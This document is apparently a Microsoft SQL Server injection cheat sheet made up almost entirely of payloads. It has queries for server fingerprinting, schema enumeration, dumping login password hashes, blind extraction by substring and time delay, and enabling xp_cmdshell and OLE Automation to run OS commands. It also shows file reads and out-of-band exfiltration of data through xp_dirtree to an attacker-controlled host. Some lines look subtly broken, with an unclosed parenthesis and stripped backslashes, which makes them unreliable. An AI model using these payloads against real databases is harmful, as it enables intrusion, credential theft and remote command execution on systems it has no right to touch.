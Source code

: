 ## Comments

```
/*
--
;%00
```

## Version
```
SELECT @@version;
SELECT @@VERSION LIKE '%2008%';
```

## User details
```
SELECT user;
SELECT current_user;
SELECT SYSTEM_USER;
SELECT USER_NAME();
SELECT USER_NAME(2);
SELECT SUSER_SNAME();
SELECT loginame FROM master..sysprocesses WHERE spid=@@SPID;
SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);
```

## Database details
```
SELECT DB_NAME();
SELECT DB_NAME(5);
SELECT name FROM master..sysdatabases;
```

# Database credentials
```
SELECT name %2b ':'  %2b master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins;
```

# Server details
```
SELECT @@servername; SELECT host_name(); SELECT SERVERPROPERTY('productversion'), SERVERPROPERTY('productlevel');
```

#Table Names
```
SELECT name FROM master..sysobjects WHERE xtype='U';
SELECT table_name FROM information_schema.tables;
```

# Columns Names
```
SELECT name FROM master..syscolumns WHERE id = (SELECT id FROM master..syscolumns WHERE name = 'tablename';
SELECT column_name FROM information_schema.columns WHERE table_name = 'tablename';
```

# No Quotes
```
SELECT * FROM Users WHERE username = CHAR(97) + CHAR(98) + CHAR(99);
ASCII(SUBSTRING(SELECT TOP 1 username FROM Users,1,1)) = 97;
ASCII(SUBSTRING(SELECT TOP 1 username FROM Users,1,1)) < 128;
```

# String Concatenation
```
SELECT CONCAT('a','a','a');
SELECT 'a' %2b 'b' %2b 'c' %2b 'd';
```

# Conditionals
```
IF 1=1 SELECT 'true' ELSE SELECT 'false';
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

# Time-delay
```
WAITFOR DELAY 'time_to_pass';
WAITFOR TIME 'time_to_execute';
```

# Enable Command Execution
```
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure reconfigure;
EXEC sp_configure 'xp_cmdshell', 1;
EXEC sp_configure reconfigure;
```

# Command Execution
```
EXEC master.dbo.xp_cmdshell 'cmd';
```

# Enable Alternative Command Execution
```
EXEC sp_configure 'show advanced options', 1;
EXEC sp_configure reconfigure;
EXEC sp_configure 'OLE Automation Procedures', 1;
EXEC sp_configure reconfigure;
```

# Alternative Command Execution
```
DECLARE @execmd INT;
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT;
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%system32cmd.exe /c';
```

# "RunAs"

```
SELECT * FROM OPENROWSET('SQLOLEDB', '127.0.0.1';'sa';'password', 'SET FMTONLY OFF execute master..xp_cmdshell "dir"');
EXECUTE AS USER = 'FooUser';
```

# Read Files
```
BULK INSERT dbo.temp FROM 'c:\foobar.txt' WITH ( ROWTERMINATOR='n' );
```

# Out-of-Band Retrieval
```
;declare @q varchar(200);set @q='\attacker.controlledserver'+(SELECT SUBSTRING(@@version,1,9))+'.malicious.com/foo'; exec master.dbo.xp_dirtree @q; --  
```

# Substrings
```
SUBSTRING(table_name,1,1) FROM information_schema.tables = 'A';
ASCII(SUBSTRING(table_name,1,1)) FROM information_schema.tables > 96;
```

# Retrieve Nth Line
```
SELECT TOP 1 table_name FROM information_schema.tables;
SELECT TOP 1 table_name FROM information_schema.tables WHERE table_name NOT IN(SELECT TOP 1 table_name FROM information_schema.tables);
```